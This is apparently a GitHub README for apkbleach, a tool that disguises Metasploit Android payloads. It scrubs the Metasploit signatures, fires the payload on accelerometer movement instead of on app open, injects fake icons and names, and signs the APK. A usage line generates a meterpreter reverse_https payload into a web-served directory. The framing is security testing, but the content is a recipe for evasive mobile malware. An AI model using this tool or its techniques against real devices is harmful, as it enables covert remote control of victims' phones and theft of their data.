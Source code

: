 # apkbleach_2.0
The newest release of apkbleach

**About:

This software was developed specifically for Kali-Linux to remove the obvious fingerprints of metasploit through out a android PAYLOAD along with assisting the user in making PAYLOAD.apk more installable across a wider range of devices.

**Features:

1) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

2) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

3) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

4) Renames the application to the name you put chose as the ouput file

5) Scrubs the entire application of any mentions of the name "metasploit" or "stage". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

6) Adds padnops to PAYLOAD

7) Signs apk with jarsigner. msfenom produces unsigned apps

8) Zip aligns apk

9) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:

apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk

 apkbleach --list-payloads
 apkbleach --list-icons
 apkbleach --clear-cache

optional arguments:
  -h, --help            show this help message and exit
  -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
  -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
  -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
  -o [output/path/for/apk]
                        Path to output apk
  --edit-permissions    Enables permission editing in apk's manifest
  --list-payloads       List available icons
  --list-icons          List available icons
  --clear-cache         Allows prompt whether to keep package maintainers version apktool
